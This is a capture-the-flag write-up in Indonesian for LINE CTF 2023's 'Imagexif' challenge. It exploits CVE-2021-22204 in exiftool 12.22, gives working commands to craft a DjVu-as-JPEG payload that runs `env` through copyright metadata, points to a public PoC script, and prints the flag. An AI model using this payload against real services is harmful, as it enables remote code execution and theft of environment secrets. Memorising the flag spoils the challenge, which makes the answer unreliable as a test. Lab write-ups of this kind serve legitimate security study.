


# Imagexif

## Deskripsi
This site provide you with the information of the image(EXIF) file. But there is a dangerous vulnerability here. I hope you get the data you want with the various functions of the system and your imagination

## Solusi
Challenge yang diberikan ini memiliki sebuah vulnerability yang kemungkinan bisa dieksploitasi untuk mendapatkan flag yang dicari.

Setelah mencari, ternyata vulnerability ada pada versi `exiftool` yang masih rentan terhadap vulnerability [CVE-2021-22204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22204) dimana dengan mengeksploitasi vulnerability tersebut dapat membuat RCE (Remote Code Execution) pada target. Vulnerability tersebut ditemukan pada `Dockerfile`

```dockerfile
RUN wget https://github.com/exiftool/exiftool/archive/refs/tags/12.22.tar.gz && \
    tar xvf 12.22.tar.gz && \
    cp -fr /exiftool-12.22/* /usr/bin && \
    rm -rf /exiftool-12.22 && \
    rm 12.22.tar.gz
```

Kemudian pada file `docker-compose.yml` diketahui bahwa flag terdapat pada `environment`, seperti berikut ini
```yml
backend:
        build:
            context: ./backend/
        container_name: line_linectf2023_backend
        restart: always
        environment:
            - FLAG=LINECTF{redacted}
            - SCRIPT_ENV=production
        networks:
            - line-linectf2023-internal
```

Untuk mengeksploitasi vulnerability tersebut install terlebih dahulu package yang diperlukan
```bash
sudo apt install -y djvulibre-bin
```

Dari link [berikut](https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/) dibuat sebuah file payload yang akan diupload ke server. Payload yang akan dibuat akan mengeksekusi command apapun yang dimasukkan dan ditampilkan pada metadata `Copyright`. 

```bash
$ printf 'P1 1 1 1' > input.pbm
$ cjb2 input.pbm mask.djvu
$ djvumake exploit.djvu Sjbz=mask.djvu
$ echo -e '(metadata (copyright "\\\n" . `env` #"))' > input.txt
$ djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
$ mv exploit.djvu exploit.jpg
```

Setelah itu dicoba terlebih dahulu di local untuk memastikan bahwa payload yang dibuat sudah berhasil. Oke, disini payload yang dibuat sudah berhasil.



Selanjutnya hanya tinggal meng-upload file payload yang sudah dibuat ke server challenge dan didapatkan flag yang dicari.



### Solusi Alternatif
Selain menggunakan langkah di atas untuk membuat payload, ada langkah yang lebih cepat yang telah disediakan oleh [bilkoh](./https://github.com/bilkoh/POC-CVE-2021-22204) pada GitHub repositorinya.
Untuk menggunakannya dengan cara berikut ini

```bash
./build_image.pl env
```
Dimana `env` adalah command yang ingin dijalankan pada target. Setelah program tersebut dijalankan, akan dihasilkan file `notevil.jpg` yang bisa di-upload pada server challenge.

## Flag
### LINECTF{2a38211e3b4da95326f5ab593d0af0e9}